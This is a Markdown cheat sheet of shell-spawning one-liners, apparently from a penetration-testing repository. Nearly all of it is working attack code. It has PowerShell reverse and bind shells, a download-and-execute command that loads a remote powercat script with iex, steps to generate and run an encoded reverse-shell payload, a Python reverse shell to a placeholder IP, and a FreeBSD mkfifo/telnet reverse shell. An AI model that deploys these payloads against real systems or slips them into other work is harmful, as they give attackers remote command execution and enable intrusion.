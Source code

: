 # Shell spawn cheatsheet



## *Powershell*

### Download file
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.22.33.44/wget.exe','C:\Users\test\Desktop\wget.exe')"
```

### Reverse shell
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('11.22.33.44',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### Bind shell
```powershell
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

### Load a remote powercat script
```powershell
iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/0xc0de44/0xc0de/master/tools/powercat.ps1')
```

### Generate encoded payload (here a reverse shell)
```powershell
powercat -c 11.22.33.44 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
```
### Execute it
```powershell
powershell -E <encoded payload>
```

## *python*

### Reverse shell
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("11.22.33.44",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
### Proper shell oneliner
```python
  python -c 'import pty; pty.spawn("/bin/bash")'
```
```bash
/usr/bin/script -qc /bin/bash /dev/null
```
## *FreeBSD*
### Reverse shell
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet 172.18.0.2 8080 > /tmp/f
```


